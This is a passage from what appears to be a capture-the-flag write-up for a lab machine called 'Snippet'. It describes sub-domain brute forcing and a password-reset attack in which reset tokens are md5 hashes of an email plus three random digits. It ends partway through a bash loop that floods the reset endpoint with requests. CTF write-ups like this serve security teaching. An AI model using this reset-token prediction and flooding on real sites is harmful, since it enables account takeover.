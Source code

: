 We can then login as one of the users onto the site.
![Screenshot from 2023-03-23 09-44-07](https://user-images.githubusercontent.com/99975622/228453331-0665c5e9-85ad-44b2-b628-aabe8d168ad6.png)
On the site settings, there is a snippet section but there isnt an IDOR we can use with our current user.
![Screenshot from 2023-03-23 09-44-30](https://user-images.githubusercontent.com/99975622/228453519-fefc1c18-8e9c-4db1-ace6-e29b09cb1481.png)

My guess, is that we need to gain access as the manager and we can view the other snippets.

Well, since there wasnt any much data on the site, i did a sub-domain brute force and found 2.
![Screenshot from 2023-03-22 23-29-00](https://user-images.githubusercontent.com/99975622/228454257-4f5bfebd-a230-4e33-b090-d696ab415d0a.png)
We can try using the ```mail``` sub-domain and get access.
![Screenshot from 2023-03-23 09-45-41](https://user-images.githubusercontent.com/99975622/228454588-923e92d7-3cf7-41c8-8589-8e184e8ffb44.png)
And it works.
![Screenshot from 2023-03-23 09-45-47](https://user-images.githubusercontent.com/99975622/228454641-7c50a594-7246-48fa-8d5d-6fac7eb4736a.png)
Well, since there was a password-forgot endpoint on the web-server,we can try and see if we can use a password-forgot attack.
![Screenshot from 2023-03-23 09-48-38](https://user-images.githubusercontent.com/99975622/228455049-0dd9d966-1b97-426f-b9a7-4591784325ed.png)
And we get a response on the mail.
![Screenshot from 2023-03-23 09-49-02](https://user-images.githubusercontent.com/99975622/228455236-274390f9-37e0-4d40-881d-c05531269ace.png)
With this, we can actually try and spam the server for password-requests and try to get access to one of the manager's user's token for access.
![Screenshot from 2023-03-23 09-49-24](https://user-images.githubusercontent.com/99975622/228455721-c46260dc-c301-4f61-b36f-f21c564767a0.png)

If you keenly look at the reset tokens, only the last 3 digits are changing.
![Screenshot from 2023-03-23 09-49-34](https://user-images.githubusercontent.com/99975622/228455970-84d72bea-a67c-47b4-bb58-5c27b78c0eff.png)
And this...

![Screenshot from 2023-03-23 09-49-40](https://user-images.githubusercontent.com/99975622/228455993-b6bbf6c2-ce4d-4d34-9f17-0e65690c5f3a.png)
With this information, we actually try and figure out how the hashing was done.
Since the token seems to be md5, maybe it was made using the user's info. We can try and use md5sum to figure this out.
![Screenshot from 2023-03-23 10-08-08](https://user-images.githubusercontent.com/99975622/228458092-3e587cf1-3f03-422a-84d9-07d225258f71.png)

So, it seems that the email is being hashed into md5sum and 3 random digits are appended to it to get the reset token.
![Screenshot from 2023-03-23 10-35-44](https://user-images.githubusercontent.com/99975622/228458971-3ddd1a70-257c-4e9f-acef-0ee942bdc376.png)

We can try to brute force the token, but there is a timeout feature.
![Screenshot from 2023-03-23 10-15-16](https://user-images.githubusercontent.com/99975622/228458529-e0439054-99cd-474a-8bb5-4507e4d6e1ae.png)
Instead of bruteforcing the token, we can actually send out a lot of request tokens are try to guess one of them.

For this,we can use a script.
```
#!/bin/bash

for i in $(seq 1 500);do curl 'http://snippet.htb/forgot-password' \
  -H 'Accept: text/html, application/xhtml+xml' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: XSRF-TOKEN=eyJpdiI6Im1jZ1IwQVdENGdtLzJ4MUMrWXNsZEE9PSIsInZhbHVlIjoicVVGVnY2RHF5V0lqcE5pUHBZLyt6ZzFXQ043Sk1aRGZEV0daRlFzWmQ0QnEwa2tKVFM4d2txc1o2Qng1MnIyV1lUVGRibWZma1dmNFNJdDE5VjBEeGZ2RlZMVytmTzJNNTY5alRLUUc1QUV3bi8xWGlEbTkyVUVtMzIrQ2ZQcS8iLCJtYWMiOiIwN2RhY2I5ODEzMDg5NzBlMTJiMTNjNDNlNjBmNTI2ODE1Y2VlMjlkM2Y1MWJlMTg5NDRmZDIyNTg3MWQwOWRmIiwidGFnIjoiIn0%3D; snippethtb_session=eyJpdiI6InN1YUwwYncrWUFKV2o0djJvZnJOd0E9PSIsInZhbHVlIjoibEdTOGR4b0UrOUNXdzZ6SVkxNUFNU21YcnRDRzB1WWVKaFJlTU5UZkx3NlpXVWNNaDJ0ZkE3V3NLQUdUTU5PSi9NbXZNMlNuVHQ1WWtBTnNSWEs2dXk4VmxlM1VoZjc3U1oxWE4rdnhmN3ZBUDJXWk9VNTdTYmh0K1cvb0VEODAiLCJtYWMiOiJiMjQzZmU5NTk1ZGFhMTc2ZDhlZjYwMzBlYTQwYTc4OGFjYzIzNTc5MTU3MGYwZDQzNTkyMDcwMjk0YzI4YTRiIiwidGFnIjoiIn0%3D' \
```